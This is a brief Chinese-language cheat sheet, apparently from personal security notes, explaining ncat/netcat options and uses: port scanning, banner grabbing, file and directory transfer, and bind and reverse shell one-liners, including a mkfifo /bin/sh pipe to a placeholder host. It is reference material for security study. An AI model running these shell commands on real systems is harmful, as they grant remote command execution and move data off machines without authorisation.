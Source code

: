 # ncat

下载地址：<https://nmap.org/download.html>

## 参数介绍

- -v列出执行过程详细信息
- -n不进行dns解析
- -z只ping，不进行io
- -l开启监听
- -p指定端口
- -q seconds输入结束x秒后退出

!!! example
    - 端口扫描：`ncat -nvz x.x.x.x 1-100`，默认tcp，如果扫描udp，需添加-u
    - 获取服务banner：`nc -nv x.x.x.x 110`
    - 传输文本信息：server`nc -l -p 1234`, client`nc -nv x.x.x.x 1234`，可相互传输。通过管道输出：`ls -l | nc -nv x.x.x.x 1234`。接收数据重定向：`nc -l -p 1234 > xxx.txt`。
    - 文件传输
        - 正向：server`nc -l -p 1234 > xxx.txt`接收文件, client`nc -nv x.x.x.x 1234 < xxx.txt`
        - 反向：server`nc -q 1 -lp 1234 < xxx.txt`发送文件, client`nc -nv x.x.x.x 1234 > xxx.txt`。打包传输目录：server`tar cvf - xxx/ | nv -lp 1234 -q 1`, client`nc -nv x.x.x.x 1234 | tar xvf -`
    - 反弹shell
        - 正向：server`nc -lp 1234 -c bash`被执行命令，client`nc x.x.x.x 1234`执行命令。
        - 反向：server`nv -lp 53`执行命令，client`nc -nv x.x.x.x 53 -c bash`被执行命令。
        - server`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l x.x.x.x 1234 > /tmp/f`被执行命令, client`nc x.x.x.x 1234`执行命令

!!! abstract
    ncat属于nmap的组件，相比于nc(netcat)，提供`--allow`指定允许连接的机器，`--ssl`进行数据加密。

!!! quote "参考链接"
    <https://blog.csdn.net/fageweiketang/article/details/82833193>
